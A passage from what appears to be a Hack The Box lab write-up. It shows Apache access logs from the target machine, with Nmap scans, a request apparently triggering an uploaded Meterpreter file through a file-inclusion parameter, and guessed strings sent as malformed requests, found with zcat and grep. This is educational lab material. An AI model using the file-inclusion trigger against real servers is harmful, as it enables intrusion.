10.10.14.3 - - [23/Dec/2017:14:16:05 -0800] "GET / HTTP/1.1" 200 4426 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
10.10.14.3 - - [23/Dec/2017:14:16:06 -0800] "OPTIONS / HTTP/1.1" 200 4426 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
10.10.14.3 - - [23/Dec/2017:14:16:06 -0800] "HEAD / HTTP/1.1" 200 168 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
10.10.14.3 - - [23/Dec/2017:14:16:06 -0800] "OPTIONS / HTTP/1.1" 200 4426 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
10.10.14.3 - - [23/Dec/2017:14:16:06 -0800] "POST / HTTP/1.1" 200 4426 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
10.10.14.3 - - [23/Dec/2017:14:16:06 -0800] "OPTIONS / HTTP/1.1" 200 4426 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
10.10.14.3 - - [23/Dec/2017:14:16:07 -0800] "OPTIONS / HTTP/1.1" 200 4426 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
10.10.14.3 - - [23/Dec/2017:14:16:07 -0800] "OPTIONS / HTTP/1.1" 200 4426 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
10.10.14.3 - - [23/Dec/2017:14:16:07 -0800] "OPTIONS / HTTP/1.1" 200 4426 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
10.10.14.3 - - [23/Dec/2017:14:16:08 -0800] "OPTIONS / HTTP/1.1" 200 4426 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
10.10.14.3 - - [23/Dec/2017:14:16:08 -0800] "OPTIONS / HTTP/1.1" 200 4426 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
::1 - - [23/Dec/2017:14:39:17 -0800] "get root" 400 301 "-" "-"
::1 - - [23/Dec/2017:14:40:53 -0800] "get-root" 400 0 "-" "-"
::1 - - [23/Dec/2017:14:41:02 -0800] "root" 400 0 "-" "-"
::1 - - [23/Dec/2017:14:43:28 -0800] "HackTheBox" 400 0 "-" "-"
::1 - - [23/Dec/2017:14:43:34 -0800] "darkarmy" 400 0 "-" "-"
::1 - - [23/Dec/2017:14:46:50 -0800] "WhiteRose@DarkArmy.htb" 400 0 "-" "-"
::1 - - [23/Dec/2017:14:48:09 -0800] "HackTheBox" 400 0 "-" "-"
::1 - - [23/Dec/2017:14:48:30 -0800] "/var/www/html/uploads/whiterose.txt" 400 0 "-" "-"
::1 - - [23/Dec/2017:14:51:37 -0800] "bash" 400 0 "-" "-"
::1 - - [23/Dec/2017:14:57:40 -0800] "rootme" 400 0 "-" "-"
::1 - - [23/Dec/2017:15:04:41 -0800] "hACKtHEbOX" 400 0 "-" "-"
::1 - - [23/Dec/2017:15:04:52 -0800] "DmogXdiNct" 400 0 "-" "-"
::1 - - [23/Dec/2017:15:05:04 -0800] "ElnfYehObu" 400 0 "-" "-"
::1 - - [23/Dec/2017:15:05:12 -0800] "FomeZfkLav" 400 0 "-" "-"
::1 - - [23/Dec/2017:15:05:21 -0800] "dMOGxDInCT" 400 0 "-" "-"
::1 - - [23/Dec/2017:15:05:33 -0800] "eLNFyEHoBU" 400 0 "-" "-"
::1 - - [23/Dec/2017:15:05:46 -0800] "fOMEzFKlAV" 400 0 "-" "-"
10.10.14.3 - - [23/Dec/2017:14:04:19 -0800] "GET /?op=uploads/met HTTP/1.1" 200 953 "-" "Mozilla/4.0"
::1 - - [23/Dec/2017:15:11:43 -0800] "OPTIONS * HTTP/1.0" 200 126 "-" "Apache/2.4.25 (Ubuntu) (internal dummy connection)"
dom@ubuntu:/var/log/apache2$
```

```sh
dom@ubuntu:/var/log/apache2$ zcat access.log.[234].* | grep -v 'OPTIONS\|HEAD\|POST\|GET' | grep ' 400 '
::1 - - [25/Dec/2017:12:59:19 -0800] "FunSociety" 400 0 "-" "-"
::1 - - [25/Dec/2017:13:00:00 -0800] "FunSociety" 400 0 "-" "-"
127.0.0.1 - - [25/Dec/2017:13:11:04 -0800] "FunSociety" 400 0 "-" "-"
10.10.10.80 - - [25/Dec/2017:13:11:22 -0800] "FunSociety" 400 0 "-" "-"
10.10.10.80 - - [25/Dec/2017:13:11:32 -0800] "42PA" 400 0 "-" "-"
10.10.10.80 - - [25/Dec/2017:13:11:46 -0800] "FunSociety" 400 0 "-" "-"
::1 - - [25/Dec/2017:13:13:12 -0800] "FunSociety" 400 0 "-" "-"
::1 - - [25/Dec/2017:13:13:52 -0800] "FunSociety" 400 0 "-" "-"
::1 - - [25/Dec/2017:13:13:55 -0800] "FunSociety" 400 0 "-" "-"
::1 - - [25/Dec/2017:13:14:00 -0800] "FunSociety" 400 0 "-" "-"
10.10.14.3 - - [25/Dec/2017:13:14:53 -0800] "FunSociety" 400 0 "-" "-"
10.10.10.80 - - [22/Dec/2017:10:17:17 -0800] "sdf" 400 0 "-" "-"
10.10.10.80 - - [22/Dec/2017:10:17:34 -0800] "Get FunSociety" 400 301 "-" "-"
::1 - - [23/Dec/2017:14:39:17 -0800] "get root" 400 301 "-" "-"
::1 - - [23/Dec/2017:14:40:53 -0800] "get-root" 400 0 "-" "-"
::1 - - [23/Dec/2017:14:41:02 -0800] "root" 400 0 "-" "-"
::1 - - [23/Dec/2017:14:43:28 -0800] "HackTheBox" 400 0 "-" "-"
::1 - - [23/Dec/2017:14:43:34 -0800] "darkarmy" 400 0 "-" "-"
::1 - - [23/Dec/2017:14:46:50 -0800] "WhiteRose@DarkArmy.htb" 400 0 "-" "-"
::1 - - [23/Dec/2017:14:48:09 -0800] "HackTheBox" 400 0 "-" "-"
::1 - - [23/Dec/2017:14:48:30 -0800] "/var/www/html/uploads/whiterose.txt" 400 0 "-" "-"
::1 - - [23/Dec/2017:14:51:37 -0800] "bash" 400 0 "-" "-"
::1 - - [23/Dec/2017:14:57:40 -0800] "rootme" 400 0 "-" "-"
::1 - - [23/Dec/2017:15:04:41 -0800] "hACKtHEbOX" 400 0 "-" "-"
::1 - - [23/Dec/2017:15:04:52 -0800] "DmogXdiNct" 400 0 "-" "-"
::1 - - [23/Dec/2017:15:05:04 -0800] "ElnfYehObu" 400 0 "-" "-"
::1 - - [23/Dec/2017:15:05:12 -0800] "FomeZfkLav" 400 0 "-" "-"
::1 - - [23/Dec/2017:15:05:21 -0800] "dMOGxDInCT" 400 0 "-" "-"
::1 - - [23/Dec/2017:15:05:33 -0800] "eLNFyEHoBU" 400 0 "-" "-"
::1 - - [23/Dec/2017:15:05:46 -0800] "fOMEzFKlAV" 400 0 "-" "-"
dom@ubuntu:/var/log/apache2$
```